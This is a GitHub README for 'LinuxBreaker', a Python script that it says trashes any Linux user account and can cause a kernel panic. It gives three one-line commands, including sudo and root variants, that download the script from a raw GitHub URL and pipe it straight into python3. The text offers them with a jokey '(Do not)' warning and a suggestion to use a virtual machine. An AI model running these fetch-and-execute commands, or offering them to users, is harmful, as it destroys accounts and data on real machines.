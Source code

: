 # LinuxBreaker
Trashes any user account in Linux*

\*Tested on various accounts on Ubuntu

(Do not) type the following command into bash:

    ~$ wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/linuxbreaker.py | python3

Or even worse:

    ~$ wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/linuxbreaker.py | sudo python3
    
or

    ~# wget -O - https://raw.githubusercontent.com/User-2357/LinuxBreaker/main/linuxbreaker.py | python3

Try it out on a virtual machine. Make sure you have a recent snapshot.

*watch_linuxbreaker.py* requires pip and python3. *linuxbreaker.py* only requires python3.

One common result:

![Kenel panic](https://user-images.githubusercontent.com/85888218/144941891-613c5f1e-ac1d-4934-bc72-7330e5195fbb.JPG)
